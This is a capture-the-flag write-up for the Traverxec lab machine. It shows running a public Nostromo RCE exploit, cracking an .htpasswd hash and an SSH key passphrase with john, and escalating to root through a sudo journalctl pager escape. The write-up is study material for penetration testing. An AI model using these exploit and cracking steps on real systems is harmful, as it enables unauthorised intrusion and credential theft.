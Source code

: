 # Traverxec

## Gaining Access

```
$ nmap -p- --min-rate 5000 10.129.85.183
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 10:24 EDT
Nmap scan report for 10.129.85.183
Host is up (0.0079s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### David White

Port 80 hosts a Portfolio site for a David White:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Here are the HTTP headers when visiting the site:

```http
HTTP/1.1 200 OK
Date: Thu, 04 May 2023 14:25:54 GMT
Server: nostromo 1.9.6
Connection: close
Last-Modified: Fri, 25 Oct 2019 21:11:09 GMT
Content-Length: 15674
Content-Type: text/html
```

This version of Nostromo has an RCE vulnerability:

```
$ searchsploit nostromo             
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (M | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                     | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command | linux/remote/35466.sh
----------------------------------------------------------- ---------------------------------
```

We can verify that it works by running it:

```
$ python2 47837.py 10.129.85.183 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Thu, 04 May 2023 14:31:57 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then, we can get an easy reverse shell by using a `bash` one-liner.&#x20;

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Public WWW

We can't capture the user flag yet. Within the `/var/nostromo` directory, there are some `conf` folders.

```
www-data@traverxec:/var/nostromo$ ls -la
total 24
drwxr-xr-x  6 root     root   4096 Oct 25  2019 .
drwxr-xr-x 12 root     root   4096 Oct 25  2019 ..
drwxr-xr-x  2 root     daemon 4096 Oct 27  2019 conf
drwxr-xr-x  6 root     daemon 4096 Oct 25  2019 htdocs
drwxr-xr-x  2 root     daemon 4096 Oct 25  2019 icons
drwxr-xr-x  2 www-data daemon 4096 May  4 10:22 logs

www-data@traverxec:/var/nostromo/conf$ ls -la
total 20
drwxr-xr-x 2 root daemon 4096 Oct 27  2019 .
drwxr-xr-x 6 root root   4096 Oct 25  2019 ..
-rw-r--r-- 1 root bin      41 Oct 25  2019 .htpasswd
-rw-r--r-- 1 root bin    2928 Oct 25  2019 mimes
-rw-r--r-- 1 root bin     498 Oct 25  2019 nhttpd.conf
```

We can try to crack the hash within `.htpasswd`.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)     
1g 0:00:00:41 DONE (2023-05-04 10:36) 0.02395g/s 253371p/s 253371c/s 253371C/s Noyoudo..Novaem
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Afterwards, we can read the configuration files.

```
# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

I searched a bit on Nostromo and this configuration, and this:

{% embed url="https://book.dragonsploit.com/web-application-testing/nostromo" %}

Basically, this allows for us to view the user's home directory by accessing `~david`. When accessed, this is what I get:

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

There was also a hint that a `public_www` exists in the user's directory.&#x20;

```
www-data@traverxec:/var/nostromo$ cd /home/david/public_www
www-data@traverxec:/home/david/public_www$ ls -la
total 16
drwxr-xr-x 3 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
```

Within this, there was a file that contained SSH Identity files.

```
www-data@traverxec:/home/david/public_www/protected-file-area$ ls -la
total 16
drwxr-xr-x 2 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz
```

I transferred this back to my machine via `nc`, and then opened it with `tar`.&#x20;

```
$ tar zxvf backup.tgz       
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

The `id_rsa` key was password protected, but since we have a password from earlier, we can `ssh2john` > `john` it.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)     
1g 0:00:00:00 DONE (2023-05-04 10:42) 100.0g/s 16000p/s 16000c/s 16000C/s carolina..david
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then, we can use `openssl` with the password to write it and SSH in.

```
$ openssl rsa -in id_rsa -out decrypted        
Enter pass phrase for id_rsa:
writing RSA key
$ chmod 600 decrypted; ssh -i decrypted david@10.129.85.183
```

### Root Shell

There are some interesting files within the user's home directory.

```
david@traverxec:~/bin$ ls -la
total 16
drwx------ 2 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-r-------- 1 david david  802 Oct 25  2019 server-stats.head
-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh
```

Here's the `bash` script contents:

```bash
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

It seems that the user can execute `sudo` for `journalctl`. Based on GTFOBins, we just need to run this.&#x20;

```bash
sudo journalctl
!/bin/sh
```

However, because we don't have the credentials to run `sudo`, what we can do is execute the `sudo` command and then run `!/bin/sh`.

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/sh
```

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>
